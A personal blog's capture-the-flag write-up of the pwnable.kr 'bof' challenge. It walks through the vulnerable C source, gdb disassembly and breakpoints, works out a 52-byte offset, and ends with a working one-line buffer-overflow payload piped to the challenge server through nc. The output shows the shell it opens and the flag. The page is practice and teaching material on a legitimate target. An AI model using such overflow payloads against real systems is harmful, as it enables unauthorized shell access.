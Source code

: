 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Toddler's Bottle - bof**

Toddler's Bottle is one of the CTF games at pwnable.kr website.  I am going to do the game is namely bof.  There are already many writeups in the internet.  However, I am going to explain what I learnt from this game.

[Website](http://pwnable.kr/play.php) (Select bof)
[Source Code](http://pwnable.kr/bin/bof.c)
[Binary](http://pwnable.kr/bin/bof)

[Exploit Server](pwnable.kr:9000)

The source code of the bof binary is provided.  I examine the source code and found out that we are going to replace the "key" from "0xdeadbeef" to "0xcafebabe".  The "overflowme" variable is 32 characters long.  No matter what you entered in the "overflowme" variable, the "key" is not changed as it is hard coded.  It is a buffer overflow challenge.  However, we are not going to take control of the return address this time.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Load the gdb with PEDA and check with "checksec".  It is confirmed that the NX is enabled with another restrictions.

```bash
gdb -q ./bof
```
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```

Run ```disass main``` to disassemble the ```main``` function.

```bash
disass main
```
```bash
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000068a <+0>:     push   ebp
   0x0000068b <+1>:     mov    ebp,esp
   0x0000068d <+3>:     and    esp,0xfffffff0
   0x00000690 <+6>:     sub    esp,0x10
   0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:    call   0x62c <func>
   0x0000069f <+21>:    mov    eax,0x0
   0x000006a4 <+26>:    leave  
   0x000006a5 <+27>:    ret    
End of assembler dump.
gdb-peda$
```

Run ```disass func``` to disassembe the ```func``` function.

```bash
disass func
```
```bash
gdb-peda$ disass func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave  
   0x00000689 <+93>:    ret    
End of assembler dump.
gdb-peda$
```

In the ```func``` function, the following codes that I am interested in.

```bash
0x00000649 <+29>:    lea  eax,[ebp-0x2c]
0x0000064c <+32>:    mov  DWORD PTR [esp],eax
0x0000064f <+35>:    call 0x650 <func+36>
0x00000654 <+40>:    cmp  DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:    jne  0x66b <func+63>
```

The ```eax,[ebp-0x2c]```, ```ebp-0x2c``` may be contained the value of ```overflowme``` variable and saved in eax register.

The ```DWORD PTR [ebp+0x8],0xcafebabe```, ```ebp+0x8``` may be contained the value of key, that is ```0xdeadbeef```.

I am going to set a breakpoint at ```0x0000065b <+47>```.

```bash
b *func+47
```
```bash
gdb-peda$ b *func+47
Breakpoint 1 at 0x65b
gdb-peda$ r
Starting program: /root/20181212/bof
overflow me :
helloworld
```

Then ```r``` run the program and is prompted for entering ```helloworld``` as the ```overflowme```.

```bash
[----------------------------------registers-----------------------------------]
EAX: 0xbffff30c ("helloworld")
EBX: 0x0
ECX: 0xb7fab5c0 --> 0xfbad2288
EDX: 0xb7fac89c --> 0x0
ESI: 0xb7fab000 --> 0x1d5d8c
EDI: 0x0
EBP: 0xbffff338 --> 0xbffff358 --> 0x0
ESP: 0xbffff2f0 --> 0xbffff30c ("helloworld")
EIP: 0x40065b (<func+47>:   jne    0x40066b <func+63>)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40064c <func+32>:  mov    DWORD PTR [esp],eax
   0x40064f <func+35>:  call   0xb7e3c5c0 <_IO_gets>
   0x400654 <func+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
=> 0x40065b <func+47>:  jne    0x40066b <func+63>
 | 0x40065d <func+49>:  mov    DWORD PTR [esp],0x40079b
 | 0x400664 <func+56>:  call   0xb7e12870 <__libc_system>
 | 0x400669 <func+61>:  jmp    0x400677 <func+75>
 | 0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
 |->   0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
       0x400672 <func+70>:  call   0xb7e3ce40 <_IO_puts>
       0x400677 <func+75>:  mov    eax,DWORD PTR [ebp-0xc]
       0x40067a <func+78>:  xor    eax,DWORD PTR gs:0x14
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbffff2f0 --> 0xbffff30c ("helloworld")
0004| 0xbffff2f4 --> 0x0
0008| 0xbffff2f8 --> 0x0
0012| 0xbffff2fc --> 0xb7dd1b00
0016| 0xbffff300 --> 0x9 ('\t')
0020| 0xbffff304 --> 0xbffff578 ("/root/20181212/bof")
0024| 0xbffff308 --> 0xb7e05d09 (<__new_exitfn+9>:  add    ebx,0x1a52f7)
0028| 0xbffff30c ("helloworld")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
 
Breakpoint 1, 0x0040065b in func ()
```

After entering the ```helloworld```, I am going to examine the ```eax``` and ```ebp+0x8```.

```bash
x/x $ebp+0x8

x/s $eax
```
```bash
gdb-peda$ x/x $ebp+0x8
0xbffff340: 0xdeadbeef
gdb-peda$ x/s $eax
0xbffff30c: "helloworld"
gdb-peda$
```

The result confirmed what I suspected.  I am going to check the offset the two addresses with Python.  The offset is ```52```.

```python
root@kali:~# python
Python 2.7.15+ (default, Nov 28 2018, 16:27:22)
[GCC 8.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xbffff340 - 0xbffff30c
52L
>>>
```

Once get the offset, I am going to overwrite the ```0xdeadbeef``` with ```0xcafebabe``` with the exploit code.  The ```cat``` command is for the interactive with the shell.

```bash
(python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
```bash
root@kali:~/20181212# (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

The flag is :
```
daddy, I just pwned a buFFer :)
```

[![](https://img.youtube.com/vi/SKZa5eLuO90/0.jpg)](https://www.youtube.com/watch?v=w1T9B9bixjA)


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
